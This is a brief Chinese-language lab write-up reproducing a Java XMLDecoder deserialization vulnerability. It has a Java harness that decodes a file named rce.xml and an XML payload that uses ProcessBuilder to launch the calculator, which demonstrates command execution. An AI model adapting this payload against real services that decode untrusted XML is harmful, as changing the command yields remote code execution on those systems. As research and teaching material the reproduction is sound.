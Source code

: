 # 漏洞分析

## 反序列化漏洞

### 漏洞描述



### 漏洞复现

#### 环境搭建

PayloadRunner.java

```java
import java.beans.XMLDecoder;
import java.beans.XMLEncoder;
import java.io.*;
import java.util.HashMap;

public class PayloadRunner {
    public static void main(String[] args) throws IOException, InterruptedException {
        PayloadRunner payloadRunner = new PayloadRunner();
        payloadRunner.deserialize();
    }

    public void serialize(){
        HashMap<Object, Object> map = new HashMap<>();
        map.put("noob","pen4uin");
        XMLEncoder xmlEncoder = new XMLEncoder(System.out);
        xmlEncoder.writeObject(map);
        xmlEncoder.close();
    }

    public void deserialize() throws FileNotFoundException {
        File xmlFile = new File("rce.xml");
        FileInputStream fis = new FileInputStream(xmlFile);
        BufferedInputStream bis = new BufferedInputStream(fis);
        XMLDecoder xmlDecoder = new XMLDecoder(bis);
        System.out.println(xmlDecoder.readObject());
        xmlDecoder.close();
    }
}
```

#### 漏洞验证

rce.xml

```xml
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.8.0_121" class="java.beans.XMLDecoder">
    <object class="java.lang.ProcessBuilder">
        <array class="java.lang.String" length="1">
            <void index="0"><string>calc</string></void>
        </array>
        <void method="start"></void>
    </object>
</java>
```
